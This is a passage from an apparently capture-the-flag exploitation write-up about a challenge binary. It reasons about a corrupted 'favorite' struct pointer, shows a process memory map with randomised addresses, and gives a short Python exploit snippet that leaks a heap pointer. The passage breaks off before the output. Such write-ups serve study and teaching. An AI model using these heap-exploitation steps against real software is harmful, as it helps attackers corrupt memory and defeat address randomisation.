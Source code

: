 The invalid `favorite` struct has `favorite->name_.p` pointing to `0x4242424242424242`, which necessarily causes a segfault when dereferenced. If I change `b'B'*0x17` in my exploit code to `fit({8: pack(ptr)})+b'B'*7`, I'll be able to leak the contents of `ptr`.

The conditions are not favorable:

```python
Start              End                Offset             Perm Path
0x00005576017e3000 0x00005576018ca000 0x0000000000000000 r-x chall
0x0000557601ac9000 0x0000557601ad1000 0x00000000000e6000 r-- chall
0x0000557601ad1000 0x0000557601ad2000 0x00000000000ee000 rw- chall
0x0000557601ad2000 0x0000557601ad5000 0x0000000000000000 rw-
0x0000557603514000 0x0000557603535000 0x0000000000000000 rw- [heap]
0x00007f2678706000 0x00007f2678709000 0x0000000000000000 rw-
0x00007f2678709000 0x00007f267872e000 0x0000000000000000 r-- /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007f267872e000 0x00007f26788a6000 0x0000000000025000 r-x /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007f26788a6000 0x00007f26788f0000 0x000000000019d000 r-- /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007f26788f0000 0x00007f26788f1000 0x00000000001e7000 --- /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007f26788f1000 0x00007f26788f4000 0x00000000001e7000 r-- /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007f26788f4000 0x00007f26788f7000 0x00000000001ea000 rw- /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007f26788f7000 0x00007f26788fb000 0x0000000000000000 rw-
0x00007f26788fb000 0x00007f267890a000 0x0000000000000000 r-- /usr/lib/x86_64-linux-gnu/libm-2.31.so
0x00007f267890a000 0x00007f26789b1000 0x000000000000f000 r-x /usr/lib/x86_64-linux-gnu/libm-2.31.so
0x00007f26789b1000 0x00007f2678a48000 0x00000000000b6000 r-- /usr/lib/x86_64-linux-gnu/libm-2.31.so
0x00007f2678a48000 0x00007f2678a49000 0x000000000014c000 r-- /usr/lib/x86_64-linux-gnu/libm-2.31.so
0x00007f2678a49000 0x00007f2678a4a000 0x000000000014d000 rw- /usr/lib/x86_64-linux-gnu/libm-2.31.so
0x00007f2678a4a000 0x00007f2678a4c000 0x0000000000000000 rw-
0x00007f2678a62000 0x00007f2678a63000 0x0000000000000000 r-- /usr/lib/x86_64-linux-gnu/ld-2.31.so
0x00007f2678a63000 0x00007f2678a86000 0x0000000000001000 r-x /usr/lib/x86_64-linux-gnu/ld-2.31.so
0x00007f2678a86000 0x00007f2678a8e000 0x0000000000024000 r-- /usr/lib/x86_64-linux-gnu/ld-2.31.so
0x00007f2678a8f000 0x00007f2678a90000 0x000000000002c000 r-- /usr/lib/x86_64-linux-gnu/ld-2.31.so
0x00007f2678a90000 0x00007f2678a91000 0x000000000002d000 rw- /usr/lib/x86_64-linux-gnu/ld-2.31.so
0x00007f2678a91000 0x00007f2678a92000 0x0000000000000000 rw-
0x00007fffb3172000 0x00007fffb3193000 0x0000000000000000 rw- [stack]
0x00007fffb31b6000 0x00007fffb31b9000 0x0000000000000000 r-- [vvar]
0x00007fffb31b9000 0x00007fffb31ba000 0x0000000000000000 r-x [vdso]
0xffffffffff600000 0xffffffffff601000 0x0000000000000000 --x [vsyscall]
```

All (readable) addresses are randomised, so I'll have to find a way to leak data otherwise first.

## Exploit hypothesis

After a bit more experimentation, I successfully leak a pointer by doing this:

```python
alloc(0, b'a'*0x97)
fav(0)
alloc(0, b'A'*0x27)
print(printName())
```

Resulting in:
